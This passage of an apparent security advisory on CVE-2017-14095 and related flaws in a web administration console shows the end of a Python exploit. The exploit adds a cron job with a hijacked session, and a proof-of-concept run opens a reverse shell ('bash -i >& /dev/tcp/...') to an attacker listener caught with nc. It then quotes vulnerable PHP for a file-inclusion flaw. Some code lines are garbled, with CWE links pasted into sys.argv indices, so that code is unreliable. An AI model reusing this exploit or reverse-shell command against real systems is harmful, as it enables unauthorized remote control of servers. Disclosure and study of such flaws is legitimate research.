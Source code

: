 ```
    }
    r = requests.post(url, data=multipart_data, cookies={session_id: session_id}, verify=False)

    if "MSG_UPDATE_UPDATE_SCHEDULE" in r.text:    
        print "[+] Cron job added, enjoy!"
    else:
        print "[-] Session has probably timed out, try again later!"

if __name__ == "__main__":
    exploit(sys.argv(http://cwe.mitre.org/data/definitions/532.html), int(sys.argv(http://cwe.mitre.org/data/definitions/78.html)), sys.argv(http://cwe.mitre.org/data/definitions/98.html))
```


The following proof of concept opens a reverse shell to the attacker's machine.
    
    
     
```
$ python coso.py 192.168.45.186 4343 'bash -i >& /dev/tcp/192.168.45.80/8888 0>&1'
[+] Obtained session id q514un6ru6stcpf3k0n4putbd3
[+] Executing command 'bash -i >& /dev/tcp/192.168.45.80/8888 0>&1' on 192.168.45.186:4343
[+] Cron job added, enjoy!
$ nc -lvp 8888
Listening on [0.0.0.0] (family 0, port 8888)
Connection from [192.168.45.186] port 8888 [tcp/*] accepted (family 2, sport 59508)
bash: no job control in this shell
[webserv@ localhost ~]$
```              



### 7.3 Remote command execution via local file inclusion

[[CVE-2017-14095](http://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-14095)] The /widget/inc/widget_package_manager.php script passes user provided input to the PHP require_once function without sanitization. However, there are some restrictions that need to be overcome in order to include arbitrary files, as the application appends PoolManager.php at the end of the filename.

File /var/www/AdminUI/widget/inc/widget_package_manager.php:
    
    
     
```
switch($widgetRequest['act']){
    case "check":
    try{
            // $strUpdateType = widget, configure_widget_and_widget_component
            $strUpdateType = isset($widgetRequest['update_type']) ? $widgetRequest['update_type'] : 'widget';
            $strFuncName = 'is'.WF::getTypeFactory()->getString()->getUpperCamelCase($strUpdateType).'Update';
            $isUpdate = WF::getWidgetPoolFactory()->getWidgetPoolManager($strUpdateType)->$strFuncName();
            [...]
```                            
              